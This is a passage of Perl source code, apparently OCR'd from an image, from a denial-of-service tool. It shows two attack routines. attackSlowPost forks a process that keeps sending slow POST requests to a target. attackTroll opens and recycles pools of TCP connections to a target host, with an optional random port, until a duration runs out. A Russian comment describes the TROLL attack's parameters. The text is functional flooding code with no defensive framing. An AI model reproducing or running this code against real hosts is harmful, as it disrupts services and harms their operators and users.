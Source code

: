 		alarm (0);
		my $itime = time;
		my ($cur_time);
		$cur_time = time - $itime;

		print "attackSlowPost started!\n";		

		while ($duration > $cur_time){
			$cur_time = time - $itime;

			my $contentLen = int ($maxLen / 3 + rand $maxLen);
			sendSlowPostRequest ($host, $port, $path, $contentLen);
			print "sleep $sleep\n";
			sleep $sleep;
		}
		exit;
	}
	else {
		return $child;
	}
}

# TROLL атака (парамерты : хост, порт, кол-во коннектов на 1 поток, слип). если порт 0, то порт рандом.
sub attackTroll {
	$SIG{CHLD} = \&REAPER;
	$child = fork;
	if ($child == 0){
		my $host = $_[0];
		my $port = $_[1];
		my $connects = $_[2];
		my $sleep = $_[3];
		my $duration = $_[4];

		if ($port eq '0'){	# todo
			$port = int rand (65535);
		}

		my $iaddr = inet_aton($host);
		my $paddr = sockaddr_in($port, $iaddr);
		my @sockPool;

		alarm (0);
		my $itime = time;
		my ($cur_time);
		$cur_time = time - $itime;

		print "attackTroll started!\n";		

		while ($duration > $cur_time){
			$cur_time = time - $itime;
			for my $i (0..$connects){
				if (defined $sockPool[$i]) { print "close $i socket\n"; close($sockPool[$i]); delete $sockPool[$i]; }
				socket($sockPool[$i], PF_INET, SOCK_STREAM, getprotobyname('tcp'));
				connect($sockPool[$i], $paddr);
			}
			sleep $sleep;
			#`usleep $sleep`;
		}
	}else {
		return $child;
	}
}
